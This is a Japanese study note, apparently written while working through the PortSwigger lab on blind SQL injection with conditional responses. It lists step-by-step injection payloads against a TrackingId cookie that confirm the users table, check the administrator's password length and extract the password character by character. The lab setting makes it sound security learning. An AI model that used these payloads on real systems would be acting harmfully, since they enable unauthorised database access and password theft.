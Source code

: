 
Date: 2025-09-10
Tags: 
Links : [[WSA]], [[SQL]]
***

例：ポップアップで”Welcome back"が表示される時など
　**直接的にクエリの結果は帰ってこないが真偽が判定できる。**
```sql
　xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
　などで検証していく。
　
>SUBSTRINGはSUBSTRのときもある。

***

## Lab: Blind SQL injection with conditional responses

1. TrackingIdによってWelcome Backが表示されることを知る。
2. 
```sql
…xyz' AND '1'='1
```

でまだ表示される。空白を＋などにしなくていいこと確認。

3. 
```sql
 TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a'--
```

usersテーブルが存在することを確認。

>SELECT 'a' FROM users LIMIT 1 の意味
 >users テーブルから 1行だけ参照する
>その行に対して「固定文字列 'a' を返す」
 >結果として → サブクエリは常に 'a' を返す
 >つまり「テーブルに1行でも存在すれば 'a' を返す」

4. 
```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```
　　
　　administratorがいることを確認。

5. 
```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

　　長さを確認。

 6. 
```sql
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

　intruderで総当たりしていく。

***
# References

https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses